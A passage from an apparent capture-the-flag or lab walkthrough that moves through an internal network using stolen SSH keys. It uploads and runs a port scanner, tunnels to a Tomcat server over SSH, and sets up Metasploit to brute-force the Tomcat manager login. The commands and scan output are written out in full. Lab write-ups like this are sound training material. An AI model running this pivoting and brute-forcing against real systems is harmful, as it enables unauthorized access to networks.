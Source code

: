 Next server is portal. Try to ping it:

ping 192.168.0.3

You should do it while connected to cisco because 192.168.X.X it's an internal network IP but it is not reachable. Try to ping it from another machine where we have a shell, in this case ssh server. Login to it and execute again the ping command. Now it works. We can try to perform an SSH tunneling but we need to scan the open ports of portal. We can use a python script, download it from here: http://www.pythonforbeginners.com/code-snippets-source-code/port-scanner-in-python. You need to edit the script to change the port range. So at line 27 change the code with this:

for port in range(1,65535):

Save it and try to upload the file with:

sudo scp -i westfall_key.txt /home/cristiano/Scaricati/portscanner.py westfall@192.168.101.7:/public

We get permission denied. We have the davis key too, so try to do the same with davis account:

sudo scp -i davis_key.txt /home/cristiano/Scaricati/portscanner.py davis@192.168.101.7:/public

It works because /public permission is drwxrwxrwt! Login with davis account and set +x permission to the script:

chmod +x portscanner.py

Then execute it:

./portscanner.py

This is the output:

Enter a remote host to scan: 192.168.0.3

-----------------------------------------------------------Please wait, scanning remote host 192.168.0.3

-----------------------------------------------------------Port 22: Open Port 8080: Open Scanning Completed in: 0:01:07.621263

There are two open ports, port 22 is for SSH, port 8080 is for the website. Now we can perform the SSH tunneling:

sudo ssh -nNT -i davis_key.txt -f -L 9000:192.168.0.3:8080 davis@192.168.101.7

Identify which service are running into portal: nmap localhost -sV -p 9000

This is the response:

### PORT STATE SERVICE VERSION 9000/tcp open http Apache Tomcat/Coyote JSP engine 1.1

So we are facing a tomcat server. We need to find a way to exploit it. Tomcat default page login is /manager, in fact if we try to open http://localhost:9000/manager we have login prompt. Use metasploit to bruteforce user and password:

use auxiliary/scanner/http/tomcat_mgr_login set RHOSTS localhost set RPORT 9000 set PASS_FILE /usr/share/wordlists/dirb/big.txt set USER_AS_PASS true set BLANK_PASSWORDS true set STOP_ON_SUCCESS true set THREADS 16 exploit
